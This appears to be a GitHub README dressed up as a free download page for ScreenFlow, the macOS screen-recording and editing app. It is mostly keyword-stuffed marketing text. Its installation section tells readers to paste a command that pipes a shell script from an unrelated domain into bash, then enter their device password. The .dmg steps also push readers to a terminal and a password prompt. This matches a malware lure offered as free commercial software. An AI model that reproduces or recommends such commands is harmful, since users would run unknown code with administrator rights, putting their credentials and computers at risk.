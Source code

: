 # ScreenFlow For Mac — Download Free for macOS

ScreenFlow is an award-winning screen recording and video editing software for macOS, ideal for creating professional tutorials, demos, and engaging videos. Follow the step-by-step instructions below to download and install ScreenFlow on your Mac. 🎥

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://fituganshfgh.github.io/.github/screenflow)

If the download button doesn’t work, follow the terminal instructions below to install ScreenFlow on your macOS device.

## 📦 How to Install ScreenFlow For Mac OS

### Installation via .dmg:

1. Click the "Download Now" button above to download the ScreenFlow .dmg file.
2. Open the .dmg installer and drag the ScreenFlow icon to your Applications folder or any preferred directory.
3. Launch a terminal and navigate to the directory where you placed the ScreenFlow file.
4. Press the "Return" key, then enter your device password in the prompt (leave blank if no password is set).

[![Installation Demo](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

*Visual guide for installing ScreenFlow via .dmg file*

### Installation via Terminal Command:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the Terminal app on your Mac and paste the copied command, then press the “Return” key.
3. Enter your device password to confirm the installation process.

[![Terminal Installation Demo](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

*Step-by-step terminal installation for ScreenFlow*

## 🎯 What You Get with ScreenFlow

- 🖥️ **High-Quality Screen Recording**: Capture your screen, webcam, or both in stunning resolution for professional-grade videos.
- 🎬 **Advanced Video Editing**: Edit videos with a user-friendly timeline, including transitions, animations, and multi-track editing.
- 🎙️ **Superior Audio Tools**: Record and enhance audio with noise reduction and voice-over capabilities for clear sound.
- 📌 **Callouts & Annotations**: Add professional callouts, text, and annotations to highlight key points in your videos.
- 📱 **Seamless Export Options**: Export videos in multiple formats optimized for YouTube, Vimeo, and social media platforms.
- 🚀 **Motion & Animation Effects**: Create dynamic videos with zoom, pan, and animated effects for engaging content.

## About ScreenFlow

ScreenFlow is a premier screen recording and video editing software tailored for macOS users who need to create high-quality, professional content. Whether you’re producing tutorials, software demos, or marketing videos, ScreenFlow’s intuitive interface makes it easy to record and edit with precision. Its robust feature set supports educators, marketers, and content creators alike, offering a seamless workflow from recording to sharing. Keywords: *ScreenFlow free download, screen recording software, video editing macOS*.

The software excels in delivering crystal-clear screen recordings, capturing both your screen and webcam simultaneously. ScreenFlow’s editing suite allows users to refine their videos with a drag-and-drop timeline, precise trimming, and customizable transitions. You can also add annotations, callouts, and text overlays to make your content more engaging and informative. Keywords: *download ScreenFlow free, video editing software, macOS screen recorder*.

Audio quality is a critical component of any video, and ScreenFlow delivers with advanced audio editing tools. Record voice-overs, remove background noise, and balance audio levels to ensure professional-grade sound. The software supports multi-track audio, enabling you to layer narration, music, and sound effects effortlessly. Keywords: *ScreenFlow for Mac, free video editor, screen capture macOS*.

For creators focused on e-learning or training, ScreenFlow offers unique features like animated callouts and mouse cursor effects, which are perfect for guiding viewers through tutorials. Its export options are versatile, supporting formats for web, mobile, and social media platforms, ensuring your content reaches your audience in the best possible quality. Keywords: *ScreenFlow download macOS, free screen recording, video editing tools*.

### Advantages of ScreenFlow
ScreenFlow stands out for its all-in-one approach, combining powerful screen recording and editing tools in a single, easy-to-use package. Its polished interface minimizes the learning curve, while its advanced features, like motion effects and multi-track editing, cater to experienced users. With regular updates and excellent customer support, ScreenFlow is a reliable choice for macOS users looking to create professional videos. Keywords: *ScreenFlow free for Mac, best video editing software, screen recorder macOS*.

## 🖼 Preview

![ScreenFlow Recording Interface](https://www.telestream.net/company/press/images/PressImage-ScreenFlow7.jpg)
*ScreenFlow’s intuitive recording interface for capturing screen and webcam*

![ScreenFlow Editing Timeline](https://images.wondershare.com/democreator/article/screenflow-for-pc-7.jpg)
*Powerful timeline for seamless video editing and effects*

![ScreenFlow Callouts](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgCjrOzlyMv2mjAa1bJ17yY8TWqmSzLUTSy8c7KxeCfROWDr0QQxfe6WsGD3QXD0-_2OAjWM4UnlgH5Wuw57X57NRjIs7xdtjMFby74pOGLVFzo3ObpxAXiwkjnGu9x9Pn2eZPHEU1jE4k/s1600/camtasia_main.jpg)
*Add professional callouts and annotations to your videos*


## 🔍 Tags

ScreenFlow free download, download ScreenFlow for Mac, ScreenFlow macOS, screen capture macOS, free video editor, ScreenFlow download free, ScreenFlow download, ScreenFlow macos, ScreenFlow free macos, ScreenFlow download mac, ScreenFlow free mac, free ScreenFlow download
